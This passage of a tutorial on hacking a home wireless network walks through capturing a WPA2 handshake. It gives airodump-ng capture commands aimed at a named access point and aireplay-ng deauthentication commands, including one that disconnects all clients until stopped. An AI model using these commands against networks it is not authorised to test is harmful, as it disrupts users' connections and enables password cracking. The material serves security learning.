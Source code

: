 ### Get Information From Target Access Point

```
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 64:13:AB:1B:92:AC  -46      238       49    0   2  130   WPA2 CCMP   PSK  Casa SH    
```

 * **Channel**: 2 
 * **ESSID**: Casa SH 
 * **BSSID**: 64:13:AB:1B:92:AC 

### Start Listening & Capturing Handshake

```bash
➜  02 sudo airodump-ng -c 2 --bssid 64:13:AB:1B:92:AC -w CasaSH-Capture-01 wlp1s0
 ```
  
* **-c**:  Indicate the channel(s) to listen to. By default airodump-ng hops on all 2.4GHz channels.
* **--bssid**: MAC Address of the Access Point.
* **-w / --write**: Is  the dump file prefix to use. If this option is not given, it will only show data on the screen. Beside this file a CSV file with the same filename as the capture will be created. This is where all the data packet will be written to.

### De-Authentication Attack

* By this point, we are listening to any connections for this Access Point and the idea is to capture a connection.
* We can patiently wait for a device to connect to this Access Point.
* Or we can force device to connect again by sending a "deauthentication" packet that will disconnect the client and the client will have to connect again.

 ```bash
 # For specific device
02 sudo aireplay-ng --deauth 5 -a <AP_MAC> -c <CLIENT_MAC> <int>

 # To all devices
02 sudo aireplay-ng -0 0 -a <AP_MAC> <int>
```
  
* The option "-0" is the short version of "--deauth". Both will send deauthentication packets. So, they are equivalent.
	  * --deauth 5 / -0 5: sends 5 deauthentication packets
	  * --deauth 0 / -0 0: sends deauthentication packets until stop.
  * -a: Access Point's MAC Address.
  * -c: Client's MAC Address.
* When you got the capture, the screen will display it (WPA handshake: ...):

![](../assets/img/articles/Hacking-A-Home-Wireless-Network/img7.png)
